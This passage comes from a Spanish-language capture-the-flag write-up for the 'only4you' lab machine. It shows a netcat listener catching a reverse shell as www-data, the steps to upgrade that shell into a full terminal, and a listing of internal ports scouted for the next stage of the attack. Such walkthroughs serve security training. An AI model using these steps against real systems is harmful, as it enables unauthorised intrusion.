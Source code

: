 ```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.210 33922
bash: cannot set terminal process group (1011): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@only4you:~/only4you.htb$ ^Z
[1]  + 36238 suspended  nc -lvnp 443
❯ stty raw -echo; fg
[1]  + 36238 continued  nc -lvnp 443
                                    reset xterm
www-data@only4you:~/only4you.htb$ export TERM=xterm-256color
www-data@only4you:~/only4you.htb$ stty rows 36 columns 149
www-data@only4you:~/only4you.htb$ source /etc/skel/.bashrc
```

### john - only4you.htb

Mirando por puertos internos de la máquina, parece haber algo interesante

```bash
www-data@only4you:~/only4you.htb$ ss -ltup
Netid   State    Recv-Q   Send-Q           Local Address:Port         Peer Address:Port   Process                                                    
udp     UNCONN   0        0                127.0.0.53%lo:domain            0.0.0.0:*                                                                 
udp     UNCONN   0        0                      0.0.0.0:bootpc            0.0.0.0:*                                                                 
tcp     LISTEN   0        4096             127.0.0.53%lo:domain            0.0.0.0:*                                                                 
tcp     LISTEN   0        128                    0.0.0.0:ssh               0.0.0.0:*                                                                 
tcp     LISTEN   0        4096                 127.0.0.1:3000              0.0.0.0:*                                                                 
tcp     LISTEN   0        2048                 127.0.0.1:8001              0.0.0.0:*                                                                 
tcp     LISTEN   0        70                   127.0.0.1:33060             0.0.0.0:*                                                                 
tcp     LISTEN   0        151                  127.0.0.1:mysql             0.0.0.0:*                                                                 
tcp     LISTEN   0        511                    0.0.0.0:http              0.0.0.0:*       users:(("nginx",pid=1045,fd=6),("nginx",pid=1044,fd=6))   
tcp     LISTEN   0        128                       [::]:ssh                  [::]:*                                                                 
tcp     LISTEN   0        4096        [::ffff:127.0.0.1]:7687                    *:*                                                                 
tcp     LISTEN   0        50          [::ffff:127.0.0.1]:7474                    *:*                                                      
```
